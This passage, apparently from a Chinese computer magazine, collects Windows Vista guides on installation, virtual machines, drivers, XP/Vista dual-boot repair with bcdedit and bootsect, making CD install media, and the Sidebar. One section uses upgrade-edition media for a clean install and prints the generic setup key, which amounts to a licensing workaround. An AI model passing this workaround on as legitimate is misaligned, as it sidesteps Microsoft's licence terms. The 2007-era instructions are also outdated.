这里的“x”是移动硬盘所在的盘符，上述命令的作用是让移动硬盘成为可引导分区。接下来的操作就比较简单了，重新开机，现在当然是从移动硬盘引导系统，注意请在 BIOS 中设置为“USB-HDD”，不能设置为移动设备启动。接下来的安装过程就和光盘引导光盘没有什么区别了，可以格式化 C 盘从而完成单系统安装的任务。

### 3. 使用内置密钥

无论选择哪一种安装方式，如果你手头没有可供激活的安装密钥，那么可以在安装过程中不输入序列号，直接跳过，当然这种情况下安装程序其实是使用了安装光盘中内置的序列号进行安装，你可以在安装完成后再输入序列号进行激活，反正 Vista 提供了 30 天的试用时间，而且通过内置的序列号还可以重置三次，也就是说你一共可以免费使用 120 天。

用记事本打开 Windows Vista 安装光盘下的“\sources\inf\setup.cfg”文件，其中保存着 Windows Vista 的安装配置信息，“[MPCTable]”小节记录了 Vista 各个版本的 Product ID 信息，最底部的“[DefaultImageSelection]”小节保存着一个安装密钥，如果使用这个密钥安装 Vista，除了可以正常通过安装程序的检测外，接下来会出现一个非常有趣的对话框，在这里我们可以自由选择需要安装的版本。

不过需要提醒的是，这个密钥只能用于安装，想激活 Vista 当然是不可能的。

## 四、虚拟机安全体验

接受一种全新的操作系统，总是需要适应期，对于初次接触 Vista 的用户来说更是如此。其实，如果你的计算机硬件配置足够强劲，例如使用了双核心处理器、海量硬盘(160GB以上)、海量内存(2GB)，那么不妨尝试在虚拟机中安装 Vista，这样可以在保证当前操作系统绝对安全的前提下体验 Vista。

### 1. VMware

目前最新版本是 6.0 Build 39849，从 http://www.vmware.com/vmwarestore/newstore/wkst_eval_login.jsp 可以下载试用版本和申请序列号。安装后选择创建一个虚拟机，当进行到 “Select a Guest Operating System” 这一步骤时，请在 “Version” 下拉列表框中选择 “Windows Vista(experimental)” 或者 “Windows Vista x64 Edition(experimental)”，一般情况下当然都是选择前者，毕竟后者对硬件的要求更高。虚拟机创建完成后，你就可以选择从安装光盘或虚拟光驱安装 Vista，如果计算机中已经有了现成的 ISO 镜像文件，那么只需要从 “Edit” 菜单中打开 “Virtual Machine Settings” 窗口，切换到 “Hardware” 选项卡，在这里设置光驱使用 ISO 镜像文件，然后通过浏览按钮载入 Vista 的镜像文件，至于接下来的安装步骤就和正常安装没有什么区别了(见图6)。

图 6

### 2. Microsoft Virtual PC 2007

目前最新版本是 6.0.156.0，现在微软已经决定将其完全免费，从 http://www.microsoft.com/windows/products/winfamily/virtualpc/default.mspx 可以下载安装，不过只能在 Windows 2000 SP4 或更高版本的系统中安装。安装后同样首先创建一个虚拟机，在选择虚拟机的操作系统时请按照图7进行选择，至于在虚拟机中安装 Vista 的步骤倒是有

图 7

些麻烦，这是因为 Virtual PC 并不能像安装 CD 版本的 ISO 镜像一样来安装 DVD 光盘镜像，我们必须通过虚拟光驱加载 DVD 镜像的方法进行。

建议首先在主系统内安装一个类似于 Daemon 的虚拟光驱软件，然后载入相应的 DVD-ISO 镜像文件，此时你可以在系统中看到这个虚拟的光驱，接下来我们就可以启动 Virtual PC 来安装这个镜像文件，当然此时你应该选择的是载入物理驱动器，“光驱→载入物理驱动器”，然后就可以看到成功加载的 DVD 格式的 Windows Vista 安装镜像了。

## 五、看一看设备管理器

虽然 Vista 提供了对 15000 种硬件设备的支持，但可能仍然会有少部分的硬件设备无法被 Vista 所自动识别，根据众多网友的报告，目前这方面的问题主要出现在摄像头和声卡方面，我们可以通过下面的两个方法进行安装：

### 1.通过自动更新安装摄像头驱动程序

大部分情况下，Vista 已经能够识别出硬件设备，但却没有能自动安装驱动程序，这样我们在设备管理器中就会发现黄色的感叹号，这主要是由于安装文件的驱动文件夹中并没有内置相关的驱动程序。假如你手头没有能够找到原有的驱动程序光盘，其实找来也没有用，毕竟现在针对 Vista 的驱动程序还不多。此时，你可以右击显示黄色感叹号的硬件，从快捷菜单中选择“更新驱动程序软件”，让 Vista 从微软的驱动程序站点自动搜索相关的驱动程序，然后会弹出一个对话框报告驱动程序的相关信息(见图8)，确认后即可自动下载和安装，看起来就是安装一个普通的 Windows 更新那样。

图 8

### 2.手工安装未能成功识别的硬件设备

某些情况下，Vista 根本连硬件设备都没有能够准确识别出来，这该如何安装驱动程序呢？此时，我们可以从该硬件的官方网站或者驱动之家下载 For XP 的驱动程序，然后通过系统属性进入设备管理器页面，找到未能正确识别的设备，右击选择“更新驱动程序软件”，注意在这里应该选择手动查找驱动程序，将路径指向下载回来的驱动文件夹，Vista 会自动搜索并安装驱动程序，这主要是得益于 Vista 的自动性。

## 六、一刀两断删 Vista

曾经从论坛上看到有朋友求助，说是准备删除随品牌机预装的 Vista，而且决定安装 Windows XP，特地发帖请教高人该如何删除 Vista。这当然不是笑话，作为新一代的操作系统，Vista 对硬件有着近乎苛刻的要求，即使品牌机厂商随机预装了 Vista，或者机箱的标签上贴上了 "Vista Capable" 或 "Vista Premium Ready PC"，但并不代表你的机子能够流畅的运行 Vista，无怪乎这位朋友准备离 Vista 远去了…

### 1.单 Vista 系统

如果你的机子中只是安装了 Vista 操作系统，那么情况就简单多了，首先请将 C 盘中的重要文档备份到其他的驱动器中，然后拿出 Windows XP 的安装光盘引导计算机，安装过程中你可以选择删除 Vista 所在分区，然后按照向导的提示重新安装 Windows XP 就可以了，当然麻烦的是可能需要手工安装相当一部分的硬件驱动，毕竟 Windows XP 并不像 Vista 那样能够自动识别并安装绝大多数的硬件驱动。
当然，假如你的计算机中有以前准备好的 Windows XP 镜像文件，那么就更简单了，直接恢复即可。

### 2.Windows XP/Vista 双系统

对于喜爱动手的用户而言，可能更多的是 Windows XP 和 Windows Vista 并存的双系统，在这种情况下删除 Vista 可能要稍复杂一些，如果你希望能够正常保留 Windows XP，那么可以按照下面的步骤进行操作：

#### (1) 格式化 Vista 所在分区

这一个工作当然不能在 Vista 系统下完成，请重启计算机进入 Windows XP 操作系统，然后进入 "计算机管理→磁盘管理" 删除 Vista 所在分区并格式化，或者也可以使用 Norton PartitionMagic 8.0 完成这项工作，选择 "格式化" 命令，应用后只需要极短的时间即可完成格式化操作，连 1 分钟都不要，而且还不需要重启系统，不过要注意的是操作过程中切勿断电。

#### (2) 删除 Boot 文件夹

我们知道，Vista 采用了完全不同于 Windows 2000/XP/Server 2003 的引导机制，虽然 C 盘根目录下仍然还存在 Boot.ini 文件，但真正发挥作用的却是 BCD(Boot Configuration Data)，而且 C 盘根目录下也多出了 C:\Boot 这个文件夹，正是这个隐藏属性的文件夹中包含了完整的 BCD 数据库，其中除了多种语言的引导文件夹之外，还包括了 BCD、bootstat.dat、memtest.exe、BCD.LOG 等四个重要的系统文件 (见图 9)。
现在，请将 "C:\Boot" 这个文件夹完全删除，如果出于安全角度的考虑，可以事先备份一下。

#### (3) 修改 Boot.ini 文件

用记事本打开 C 盘根目录下的 Boot.ini 文件，将其中以分号 ";" 开头的四行内容删除，退出时请保存，如果不放心的话同样可以事先进行备份。

图 9

#### (4) 重写引导文件

接下来，我们需要恢复 Windows XP 的引导功能，请将事先准备好的 Windows Vista 安装光盘放入光驱，或者也可以使用虚拟光驱加载镜像文件，然后进入命令提示符环境，通过 "CD" 命令进入光驱或虚拟光驱的根目录下，进入 "boot" 文件夹，手工输入如下命令并执行：

```
bootsect /nt52 sys
```

命令执行后重新启动系统，现在你会发现原来的 Vista 引导管理器已经消失不见，Windows XP 的引导功能已经成功恢复，然后你可以手工删除 C 盘根目录下与 Vista 有关的系统文件。

## 七、巧妙实现 "全新安装"

和以前的版本一样，Windows Vista 同样提供了全新安装和升级安装两种不同的版本，后者的价格当然是有一定的优惠，但却无法进行全新安装，也就是只能在已安装了正版 Windows XP 的系统中实现升级安装，如果安装程序无法检测到硬盘上已存在的老版本 Windows，那么将自动退出，当然这个升级版本也不支持从光盘启动后安装。

其实，虽然 Windows Vista 在发行时提供了多个版本，包括 Home Basic、Home Premium、Business 还有 Ultimate，不管是全新安装版本还是升级版本，安装介质中的内容都是相同的，根本区别只是在于安装时所输入的产品密钥，安装程序将根据所输入的产品密钥来自动选择版本，并复制相应的文件进行设置及激活。基于这一原理，我们就可以明白所谓升级版本的 Windows Vista，其实与那些零售的全新安装版本是没有什么区别的：

### 1.正常安装 Vista

首先，我们还是正常安装 Windows Vista，注意安装过程中不要输入授权密钥，这样才可以自由选择待测试的 Vista 版本。但这里要提醒的是，请根据所购买的序列号选择正确的版本，例如购买的是最高等级的旗舰版本，那么请在安装时选择 "Windows Vista ULTIMATE" 而不要选择其他的版本。

### 2.进入命令提示符环境

现在，请使用管理员级别的帐户登陆系统，或者单击开始菜单，选择 "所有程序→附件→命令提示符"，从右键菜单中选择 "以管理员身份运行"，进入具有管理员权限的命令提示符环境。

限的命令提示符环境。

### 3.更改授权密钥

这里我们需要使用到 Vista 内置的 Windows 授权管理工具：slmgr.vbs，输入下列命令：
slmgr.vbs -ipk Vista 的 25 位授权密钥
这个命令的作用是安装产品密钥，或者说是替换内置的公用序列号 "YFKBB-PQJJV-G996G-VWGXY-2V3X8"，替换成功后再次输入 "slmgr.vbs -ato" 命令即可激活 Vista。如果你还不放心，可以使用 "slmgr.vbs -dlv" 查看激活后的详细许可证信息，当看到图 10 所示的窗口时，你就可以彻底地放心了。



## 八、手工制作 CD 介质的安装光盘

由于 Windows Vista 的个头巨大，几乎任何一个版本的个头都在 2.5GB 左右，正因如此微软开始使用 DVD 介质进行推广和发行。假如你的计算机中并没有安装 DVD 刻录机，那么可以通过下面的方法手工制作 CD 介质的 Vista 安装光盘，当然 CD-R 刻录机肯定是需要的啦：

### 1.准备工作

首先，请准备好相关的软件，包括 UltraISO、WAIK，当然你手头还需要拥有 Vista 安装光盘，或者是镜像文件也可以，当然还需要准备好虚拟光驱，使用免费的 Daemon Tools 就可以了。
比较值得一提的是 WAIK(Windows Automated Installation Kit)，这是微软官方免费的制作工具，其中包括了创建 Windows Vista 镜像所需要的工具：Windows System Image Manager、Windows PE 2.0，还有我们所需要的磁盘映像工具 Imagex，当然文件的个头也比较大，接近 850MB，下载地址为 http://download.microsoft.com/download/8/6/d/86d6ba9c-98ff-444e-87ed-3e76772eb2a6/vista_6000.16386.061101-2205-LRMAIK_EN.img。

### 2.安装软件

UltraISO 的安装颇为简单，一路回车即可完成安装。不过 WAIK 的安装就有些复杂了，Windows Vista 系统下使用虚拟光驱后进行加载，然后直接运行 startcd.exe 即可，安装成功后会在开始菜单下自动创建相关的程序组；如果是在 Windows XP 系统下安装，还需要符合某些条件，安装过程颇为繁琐。

### 3.提取安装镜像

运行 UltraISO 打开 Vista 的镜像文件，从 "\sources\install.wim" 路径下提取 install.wim 文件，释放到本地磁盘的某个路径中，这个镜像文件的个头接近 2GB，可以说是天文数字，因此注意目标路径所在磁盘的可用空间是否足够。

### 4.路径跳转

如果是 Windows XP 系统下进行操作，那么请从开始菜单下运行 “所有程序→Microsoft Windows AIK→Windows PE Tools Command Prompt”，然后切换到 “C:\Program Files\Windows AIK\Tools\x86\”，如果是 Windows Vista 系统则可以跳过这一步，直接进入命令提示符环境。

### 5.拆分镜像

在命令提示符环境下，输入下列命令，执行后即可将 install.wim 镜像文件拆分为若干个容量较小的文件，其操作有些类似于 WinRAR 的分卷压缩：
imagex /split h:\vista\sources\install.wim h:\temp\install.swm 390
这里的 "h:\vista\sources\install.wim" 是即将用来拆分的镜像文件的名称和路径，"h:\temp\install.swm" 是 install.wim 拆分后的目标名称和位置，而 "390" 是每个拆分后的文件大小，单位是 MB。之所以设置为 390MB，这主要是考虑到 CD1 光盘的容量，为了不超过 700MB 的容量限制，因此必须适当控制好输出文件的大小。

### 6.打包重建

仍旧运行 UltraISO 打开 Vista 的安装镜像，从中删除 install.wim 文件，然后将拆分得到的 install.swm 文件替换进去，两者相加也才 697MB 而已，没有超过 700MB 的容量限制，最后将其另存一下，然后就可以得到可以启动的 CD1 光盘镜像了。
接下来仍然是在 UltraISO 下进行操作，在这里新建一个名为 “sources” 的文件夹，分别将 install2.swm、install3.swm、install4.swm、install5.swm 添加进去，逐个另存为 CD2、CD3、CD4、CD5 的光盘镜像，注意 *.swm 文件必须放到这个文件夹中，否则安装程序将无法访问。这里要提醒的是，CD2、CD3、CD4、CD5 镜像文件的容量都很小，但为了保证 CD1 镜像文件的容量不超过 700MB，因此只能委曲求全了。
上述工作完成后，可以说是大功告成，最后只要逐个刻录就可以了，以后安装 Windows Vista 时就可以使用 CD1 这张光盘引导安装，待出现图 11 所示的提示时，依次插入安装光盘即可。



# 全面剖析 Windows XP/Windows Vista 的双启动

文/王志军

如果要说现在最热门的软件是什么，相信朋友们都会异口同声地说“Vista”！的确，作为微软精心准备了五年之久的下一代操作系统，Vista 的一举一动都吸引了太多的目光，而随着2007年1月30日个人消费版本的正式发布，国内的品牌厂商几乎无一例外地向 Windows Vista 靠拢，而越来越多的朋友也主动或被动地去体验、接受全新的 Windows Vista。

## 一、安装实现双启动

毕竟是新一代的操作系统，Vista 还有着太多的陌生感，因此除去很少一部分软件狂热者之外，绝大部分用户还是希望继续保留原有的 Windows XP 搭建双操作系统，也就是说在原有的 Windows XP 基础上全新安装 Windows Vista，这样就可以自动生成双引导菜单，是一种比较保险的系统安装方式。

首先正常安装 Windows XP，完成诸事设置后，我们可以按照下面的方法实现双启动：

### 1. 光盘引导

开机加电，进入 BIOS 设置为光盘引导，然后放入 Windows Vista 的安装光盘，此时会自动加载安装程序，稍候片刻即可看到如图1所示的窗口，一般也不需要在这里进行什么设置，我们只需要按照向导的提示，单击“下一步”按钮即可完成整个安装进程。



### 2. Windows XP下安装

进入 Windows XP 操作系统，放入 Windows Vista 的安装光盘，正常情况下应该会自动加载安装程序，如图2所示，选择“现在安装”即可。接下来会询问是否需要升级当前的操作系统，由于我们是准备实现双启动，因此这里请选择“自定义(高级)”，然后在图3窗口中指定安装路径，接下去的步骤就和刚才没有什么区别了。



### 3. 虚拟光驱安装

对于那些直接下载了镜像文件的用户来说，他们可能需要使用 DVD 刻录机进行刻录，假如你暂时不具备这个条件，那么可以借助虚拟光驱来完成这个任务，例如 Alcohol 120%、Daemon Tools，都同样可以进行安装，但只能在 Windows 平台上完成这个任务。你不用担心文件复制结束后的重启，因为安装程序会将所有使用到的文件复制到系统的临时文件夹中，安装结束后会自动删除，建议选择免费的 Daemon Tools。

Daemon Tools 的最新版本已经是 V4.0.8，而且针对 Windows 9x/XP、Windows XP x64 分别发布了所对应的版本，虽然这个版本同样支持 Windows Vista，但就目前情况而言，恐怕绝大多数的用户使用的还是以 Windows XP 居多，而且 4.0 以上的版本安装时同样必须首先安装 SPTD，而且还需要重新启动一次系统，总之是麻烦多多。推荐朋友们选择稳定性极佳的经典版本 3.11，官方下载地址是 http://www.daemon-tools.cc/dtcc/download.php?mode=Download&id=21。

运行 Daemon Tools，从右键菜单中选择“Virtual CD/DVD-ROM”，接下来选择“Device 0: [O:] No media -> Mount image”命令，注意这里的“0”是数字 0，而不是字母 O，代表的是第一个虚拟光驱，而后面的“[O]”则代表虚拟光驱的盘符，右侧的“Mount image”是用来载入镜像文件，请在随后弹出的对话框中指定需要载入的镜像文件，Daemon Tools 几乎支持所有格式的镜像文件，包括 *.cue、*.iso、*.ccd、*.bwt、*.mds、*.cdi 等，如果镜像文件刻录成光盘后能够自动运行，那么通过虚拟光驱载入的镜像文件同样会自动运行，也就是说 Windows Vista 的安装向导会自动运行，接下来的步骤就和 Windows XP 下安装没有什么区别了。



## 二、在Windows Vista系统下设置默认操作系统

在安装结束后，引导时默认启动的是 Microsoft Windows Vista，此时有30秒的时间供用户选择，我们可以通过上、下光标箭头选择“早期版本的 Windows”，实际上这个所谓的早期版本就是原来的 Windows XP，但如果你不在现场的时间超过30秒，那就将进入 Vista 系统，此时你将不得不选择重新启动才能进入 Windows XP，感觉到有些不太方便。其实，我们还是可以非常方便地在 Windows Vista 下调整默认的操作系统，这里介绍两种方法：

### 1.图形化解决方案

- （1）和 XP 时代一样，右击桌面上的“计算机”图标，打开系统属性窗口，在左侧任务窗格中选择“高级系统设置”，此时会看到我们非常熟悉的“系统属性”窗口。
- （2）单击右下角最后一个“设置”按钮，也就是“启动和故障恢复”小节中的那个设置按钮，会自动打开“启动和故障恢复”对话框，如图 4 所示。



- （3）将默认的操作系统重置为“早期版本的 Windows”，然后单击右下角的“确定”按钮进行保存，下一次启动时就会默认启动 Windows XP。

不过遗憾的是，这里已经无法找到 XP 下的“编辑”按钮，即使用记事本打开 C 盘根目录下的 BOOT.INI 文件，也无法在这里手工编辑引导菜单中的选项。

### 2.命令行解决方案

在 Windows Vista 系统中，微软放弃了 Windows 2000/XP/Server 2003 所采用的基于 NTLDR 的 OS 引导模式，而是使用全新的 Boot Manager(引导管理器)来完成 Windows Vista 的初始化引导工作，这种新架构可以实现完整的硬件独立性，并且能够与多种操作系统实现无缝整合。

#### （1）BCD 数据库的秘密

BCD(Boot Configuration Data)正是与 Boot Manager 相配套的一个数据库，这里包含了 Windows 操作系统的启动参数配置信息以及控制如何启动 Vista 的所有信息，而这些信息过去是储存在 boot.ini(基于 BIOS 操作系统)或者可读写性存储器中(基于 EFI 操作系统)。Windows 安装程序将 BCD 数据存储到活动分区根目录下一个名为“Boot”的文件夹中，这个文件夹通常是位于 C 盘的根目录下，其中包含一个名为 BCD 的无扩展名文件，而“C:\Boot\BCD”文件就是整个 BCD 数据库，在 Windows Vista 系统下是无法删除这个文件的。假如该文件被删除，那么系统将无法成功启动，这是因为 Boot Manager 无法找到合适的 BCD 数据库供使用。

#### （2）BCDEdit.exe 的妙用

虽然我们无法借助记事本编辑 BOOT.INI 来解决默认操作系统的问题，但可以借助 Vista 的 BCDEdit.exe 来完成这个任务，这是一个命令行工具，其路径位于“\Windows\System32”目录下，BCDEdit.exe 基本上涵盖了所有的 BCD 数据库的操作内容，我们可以借助这个命令行工具在启动配置数据存储中添加、删除、编辑和附加项。单击开始菜单，在这里找到“所有程序→附件→命令提示符”，右击选择“以管理员身份运行”打开命令提示符窗口，如果你已经是以管理员帐户登录系统，那么可以省去这一步。切换到 \windows\system32，执行如下命令即可将 Windows XP 设置为默认的启动系统(见图 5)：



```
bcdedit.exe /default {ntldr}
```

这里需要说明的是，在“/default”的后面千万不能输入“早期版本的 Windows”，否则会提示“指定的命令未知”，关于“{ntldr}”的内容可以借助“bcdedit.exe /enum”参数查看，然后通过命令提示符的快捷菜单进行标记、复制、粘贴，这里无法通过 Ctrl+C、Ctrl+V 组合键来完成复制和粘贴的操作。如果需要设置启动管理器显示多重引导菜单的顺序，可以使用“/displayorder”参数，而“/timeout”可以设置启动管理器的超时值。

## 三、在 XP 下设置默认操作系统

在 Windows XP 下调整默认启动系统的方法非常简单，相信很多朋友都不陌生，右击桌面上的“我的电脑”图标打开系统属性窗口，切换到“高级”标签页，在这里单击“启动和故障恢复”小节中的“设置”按钮，打开启动和故障恢复对话框，不过我们在“默认操作系统”下拉列表框中并没有看到与 Vista 有关的引导项，这是怎么一回事呢？

原来，Vista 引入了全新的引导管理器，与 Windows XP 大不相同的是将以前保存在 BOOT.INI 中的启动配置参数转移到了启动配置数据存储包中，这也就是为什么我们在 BOOT.INI 文件中无法查看到 Vista 引导选项的原因所在。

# Vista 完全攻略

那么，难道我们再也无法在 Windows XP 下将 XP 设置为 Vista/XP 的默认启动系统了吗？

由于 BCDEdit 是一个命令行程序，使用起来极为不便。对于普通用户而言，建议还是选择第三方软件来完成这个任务，这里介绍两款比较好用的软件：

### 1. VistaBootPRO

VistaBootPRO 是第一个被设计用来对 Vista 进行调整和优化的软件，提供了一个图形化的操作界面，可以非常方便地对 Vista 的引导管理器进行各种调整，修改调整一目了然，而且还是完全免费的，目前可供下载的最新版本是 3.1 Beta，下载地址为 http://www.vistabootpro.org/，支持 Windows XP (Home,PRO,x64,MCE 2005)、Windows Server 2003、Windows Vista、Longhorn Server，但无论哪一个操作系统，运行时都需要.NET 2.0 Framework 的支持。

需要说明的是，VistaBootPRO 采用了类似于 Office 2007 风格的界面，单击窗口顶部的按钮切换到 “Manage OS Entries” 标签页，如图6所示。可以看到 “OS List” 列表框中给出了目前已安装的操作系统，遗憾的是对中文字符的支持不是太好，总算不影响正常使用。在正式使用之前，请执行 “Rescan BCD Registry” 重新扫描 BCD，以保证当前配置信息是最新的。



现在的操作就很简单了，选中需要设置为默认操作系统的项目，然后在下面勾选 “Set as Default” 复选框，如果有需要的话，可以单击右侧的双箭头按钮调整各个项目的次序，通过 “Up” 和 “Down” 两个按钮进行调整，最后单击右下角的 “Apply” 按钮即可生效。假如需要对系统项进行重命名，首先需要勾选 “Rename selected operating system” 复选框，然后下面会增加 Rename To 和 Drive Letter 的相关选项。

### 2. EasyBCD

EasyBCD 的作用与 VistaBootPRO 大致相仿，也是一个完全免费的软件，目前最新版本是 1.52，下载地址为 http://neosmart.net/dl.php?id=1，当然也需要.NET 2.0 Framework 的支持。

运行程序，切换到 “Configure Boot” 标签页，如图 7 所示，在右侧窗格的 “Default OS” 下拉列表框中选择 “早期版本的 Windows”，这里还可以重置显示引导管理器的默认时间，最后单击下面的 “Save Settings” 按钮即可生效，以后引导时就会默认以 Windows XP 启动。



如果你需要对引导管理器中的项目重命名，那么可以在下面的 “Entry-Based Settings” 小节中完成，首先选中相应的引导项，然后在 “Name” 后面的文本框中自由命名即可。

## 四、修复引导管理器

有一个问题是比较令人讨厌的，当按照正常的步骤完成 Windows Vista/Windows XP 的安装后，此时双引导菜单已经自动生成，一般情况下我们不用去改变什么。但如果由于某些原因对 Windows XP 进行了修复或重新安装，那么原有的引导管理器会遭受破坏，双引导菜单也已消失不见，换句话说也就是将无法进入 Windows Vista，但 Vista 系统却是实实在在地还呆在原来的地方，只不过是缺少了相关的启动配置参数。Vista 的引导管理器很有些特殊，通常的方法并不能对引导菜单进行更改，这该怎么办呢？

### 1. 命令行下修复双启动菜单

关于重装 Windows XP 系统后如何来恢复双启动菜单，如果你使用 Google 或百度进行搜索，那么会得到很多的结果，不过大部分都是这样写的：XP 下插入 Vista 系统安装盘，或者使用 Daemon Tools 加载镜像文件；进入运行对话框，跳转到光驱或虚拟光驱所在的盘符，进入 “boot” 目录；执行 “bootsect /nt60 SYS”。不过，这里可以负责任地告诉大家，这个方法是一个 “伪招”，其实是没有用的。

如果你事先曾使用 BCDEdit.exe 备份过启动配置(命令格式：BCDEdit.exe /export e:\bakuper.txt)，那么请插入 Windows Vista 的安装光盘，或者使用虚拟光驱，通过运行对话框输入 “cmd”，执行后会进入命令提示符环境，跳转到光驱所在盘符的 “boot” 目录，手工输入 “BCDEdit /import bakuper.txt”，执行这条命令后即可还原双启动菜单，同时你会发现 Windows XP 根目录下会重新生成 “Boot” 文件夹，接下来再将 Windows Vista 安装光盘根目录下的 bootmgr 文件复制到 XP 系统的根目录下即可。

### 2. 第三方软件修复引导管理器

很显然，使用上述方法的前提是事先已经成功备份了 Windows Vista 的启动文件，可想而知这是一件不太可能的事情。因此，最好还是借助 VistaBootPRO 或 EasyBCD 来修复引导管理器，方法也很简单：

#### (1) VistaBootPRO

切换到“Bootloader”标签页，如图8所示。在这里选择“Reinstall the Vista Bootloader”，然后单击下面的“Apply”按钮，确认后会自动重启系统，很快就可以修复 Vista 的引导管理器。当然，如果什么时候不再需要 Vista，可以选择“Uninstall the Vista Bootloader”删除引导管理器，这样就可以不用去手工删除 C 盘根目录下的 BOOT 文件夹，而且是绝对的安全方便。



小提示：如果“Apply”按钮呈灰色不可用状态，可以先选择“Uninstall the Vista Bootloader”，然后再切换回去再选择就可以了。

#### (2) EasyBCD

EasyBCD 当然也可以修复 Vista 的引导管理器，不过现在需要的是切换到“Manage Bootloader”标签页，如图9所示，在这里选择“Reinstall the Vista Bootloader”，然后单击下面的磁盘状按钮“Write MBR”写入即可。不过，建议在进行此项操作之前，最好先备份当前的引导数据，以确保万无一失。



## 五、删除多余的引导项目

我们知道，如果需要删除双引导菜单中的多余项目，

### 1. VistaBootPRO

这个任务仍然需要在“Manage OS Entries”标签页下完成，首先在“OS List”列表框中选择一个待删除的操作系统，然后单击右侧红色的删除按钮，此时会弹出如图10所示的对话框，再次确认后即可将其删除。



### 2. EasyBCD

切换到“Add/Remove Entries”标签页，在这里选择需要删除的引导项，然后单击“Delete”按钮即可(见图11)，这里当然也可以调整引导项的次序，够简单的吧？



当然，VistaBootPRO 和 EasyBCD 这两款软件还有很多的功能，例如备份和导出引导数据、调整引导参数等，具体操作这里就不多介绍了，感兴趣的朋友不妨一试。

# Windows Vista 边栏攻略

文 / 胡鹏 kingjames 胡争辉 无蓝

Windows Vista 中新增了很多有趣而实用的工具，同时对旧组件也进行了全面升级，这使得 Vista 系统的功能和安全性都大大增强。本文将全面介绍这些工具和组件的应用攻略，助你彻底玩转 Vista。

说明：在 Vista 中进行操作时，会不断出现“用户账户控制”的提示，此时只要单击“继续”按钮或输入管理员账户密码即可，本文中将省略掉对它的描述。

## 一、实用有趣的小工具：Windows 边栏

用过苹果电脑的用户都会爱上 Mac OS 系统漂亮的侧边栏，在 Windows XP 中却没有这样的工具，有人选择安装 Yahoo 推出的侧边栏工具“Yahoo! Widget”，但是作者个人认为它并不是很好用。惊喜的是，微软在 Vista 中加入了“Windows 边栏”！它是桌面上的一个区域，上面摆放着各种小工具，如：天气、股票、汇率、日历、时钟、便签、通讯录、CPU 内存占用率等，这些小道具的应用覆盖面颇为广泛，包括生活、学习、工作的方方面面，通过“Windows 边栏”可快速访问这些小工具，例如你可以随时关注天气，还可以把经常关注的股票打开，让它一直在边栏中随时更新，这将大大提高你的工作效率。

“Windows 边栏”是默认开启的，只要进入 Vista 系统就可以看到它（如图所示），如果“Windows 边栏”被关闭，可以使用“开始”菜单→“所有程序”→“附件”→“Windows 边栏”命令来启动它。如果启动了“Windows 边栏”却没有看到它，这是因为它处于隐藏状态，单击任务栏托盘区域的“Windows 边栏”图标即可使其显示。如果要退出“Windows 边栏”，可以右击任务栏托盘区域的“Windows 边栏”图标，选择“退出”命令（见图1）。



要对“Windows 边栏”进行设置与调整，只需在“Windows 边栏”的空白区域单击鼠标右键，选择“属性”命令，即会弹出属性窗口，可进行如下设置：系统启动时是否自动加载“Windows 边栏”；调整“Windows 边栏”在桌面中的位置，是处于左边还是右边；如果要使“Windows 边栏”始终显示在桌面前端，可以选中“边栏始终在其他窗口的顶端”选项；单击“维护”下的“查看正在运行的小工具的列表”，可以将某个小工具从边栏中删除，不用担心，此操作并不会将这个小工具从电脑中卸载，也可以在边栏区域右击某个小工具，然后选择“关闭小工具”命令，效果是一样的（见图2）。另外，在某个小工具上单击鼠标右键，选择“从边栏分离”，可以将小工具分离出来并放置在桌面任何位置，你还可以在小工具上单击鼠标右键，选择“附加到边栏”，将它复原。



注意：默认情况下，“Windows 边栏”只能在桌面上显示，不能与其他窗口重叠显示。选中“边栏始终在其他窗口的顶端”选项后，“Windows 边栏”会始终前端显示，但它会始终占据屏幕右边或左边的一个区域，屏幕的可显示面积将会缩小，这会让很多用户感到不习惯。我们也可以在“Windows 边栏”的空白区域上单击右键，选择“将小道具置于前端”命令，这样设置后“Windows 边栏”可位于其他窗口之上并重叠显示。具体使用那种显示方法，要根据你的个人喜好来选择了。

如果要在“Windows 边栏”上添加小道具，可以在“Windows 边栏”的空白区域单击右键，选择“添加小工具”命令，打开小工具列表窗口后，双击某个小工具即可将它添加到“Windows 边栏”区域（见图3）。

单击“联机获取更多小工具”链接，可联机到 http://vista.gallery.microsoft.com/vista/SideBar.aspx?mkt=zh-cn 网址下载更多的小工具。微软 Windows Vista 小组刚刚公布了“Windows 边栏”小工具开发竞赛的 Top10 获奖名单，这些精美而实用的小道具是你不容错过的，它们包括：

- 第一名：SoapBox 视频插件——在“Windows 边栏”中播放 MSN 视频，创建、分享你的视频收藏夹；
- 第二名：NET Interop for Gadgets —— Gmail 收件夹阅读器；
- 第三名：天气预报小工具——除了天气预报，类似的应用还包括：股市行情、证券消息、金融汇率等；
- 第四名：“Windows 边栏”版的 Virtual Earth ——在线地图服务的桌面化应用；
- 第五名：Dilbert 漫画每日一则——在线图片浏览，订阅好友的最新相册；
- 第六名：Vista 小工具使用技巧插件——开发者必备，类似的还可以引申到：CSS 查询器、Linux 指令查询器等；
- 第七名：“Windows 边栏”行事历——个人商务计划软件，如果能够和 Google Calendar 等在线应用结合，会有更大的发展前景；
- 第八名：“Windows 边栏”小游戏——桌面上怎么能少了游戏？除了纸牌，还有更多选择；
- 第九名：通过“Windows 边栏”浏览天文星图——专业化教学需求，通过 RSS/API 接口获取各种学习教程，例如：德语课程、CPA 教程等；
- 第十名：Vista 窗口缩略图插件。

结语：“Windows 边栏”不仅使 Vista 界面更加炫目，也使用户体验更加丰富多彩！微软通过“Windows 边栏”开辟了一个新兴桌面应用市场。用户总是懒惰的，能够在桌面单击一次鼠标解决的事情，没有人会想通过更复杂的操作来完成，可以肯定地说，将来“Windows 边栏”的应用必将更为广泛。

## 二、了解电脑性能：硬件评分工具

为了让用户更了解自己电脑硬件相对于操作系统的性能，Windows Vista 中加入了硬件评分工具，用户可以通过“控制面板”→“系统和维护”→“系统信息和工具”打开它(见图4)，它主要对电脑的处理器、内存、显卡、显卡游戏性能、硬盘存储空间进行衡量并加以评分。而综合评分并不是所有项目的平均分，而是以五项评分中最低的分数作为系统对电脑硬件水平的综合评分，也就是我们常说的木桶原理（图4）。



图4 硬件评分工具，帮你了解自己的电脑性能

对硬件评分工具的得分说明如下，供读者参考。

| 评分 | 基准分代的含义 |
| --- | --- |
| 1.0 | 1.0 基准分代表了可以运行 Windows Vista 的最小硬件要求：满足运行 Windows Vista 的基本功能，可以安装 Windows Vista。 |
| 2.0 | 2.0 基准分代表了，这种等级的电脑可以启用 Windows Aero（玻璃透明特效），但是用户会感到性能相当低，尤其是电脑的分数低于 2.5 并且没有至少 64MB 显存的时候。如果同时打开多个应用程序窗口，或者使用大显示器的时候也会感到性能的降低。 |
